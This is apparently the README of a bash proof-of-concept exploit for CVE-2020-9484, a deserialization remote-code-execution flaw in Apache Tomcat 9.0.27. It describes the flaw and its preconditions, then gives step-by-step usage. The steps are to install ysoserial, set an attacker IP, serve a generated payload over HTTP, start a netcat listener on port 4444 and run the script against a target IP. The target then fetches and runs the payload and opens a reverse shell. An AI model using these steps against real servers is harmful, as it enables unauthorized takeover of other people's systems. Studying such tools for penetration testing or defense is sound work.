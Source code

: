 # Remote Code Execution Exploit in Apache Tomcat 9.0.27

Apache Tomcat 9.0.27 is vulnerable to Remote Code Execution with the CVE-ID CVE-2020-9484. Other versions may be affected as well. Tested on Kali 2020.4 and JDK 8. This bash script is a simpel proof-of-concept. For educational purpose only.

## Description

The vulnerability allows a remote attacker to execute arbitrary code on the target system.

The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

Successful exploitation of this vulnerability may result in complete compromise of vulnerable system but requires that the server is configured to use PersistenceManager with a FileStore and the attacker knows relative file path from storage location.

## Requirements

In order to use the script, [yoserial](https://github.com/frohoff/ysoserial) is needed. To install it:

`cd /opt && git clone https://github.com/frohoff/ysoserial`

`cd /opt/ysoserial && wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master.jar`

If you have yoserial already installed, make sure to rename it to "yosorial-master.jar".

## Installation

To install the script, type:

`cd /opt && git clone https://github.com/PenTestical/CVE-2020-9484 && cd CVE-2020-9484/ && chmod +x CVE-2020-9484.sh`

## Help menu

To open the help menu, type:

`./CVE-2020-9484.sh --help`

or

`./CVE-2020-9484.sh -h`


## How to use it

First, open the script and place your own IP address at line 14:

`remote_ip="10.10.16.180" 	# change this`

This script creates the files "payload.sh", "downloadPayload.session", "chmodPayload.session" and "executePayload.session" in the same directory as you currently are. In order to use the exploit, you need to start a simpel listener at port 80. For example, usage with Python3 (start in same folder as you run the script):

`sudo python3 -m http.server 80`

Also, make sure to start a netcat listener at port 4444:

`nc -nvlp 4444`

Now run the script with the IP address of the target system you want to attack:

`./CVE-2020-9484.sh target-ip`

## Troubleshooting

If it does not work, make sure to use JDK 8. To test which version you use, type:

`java -version

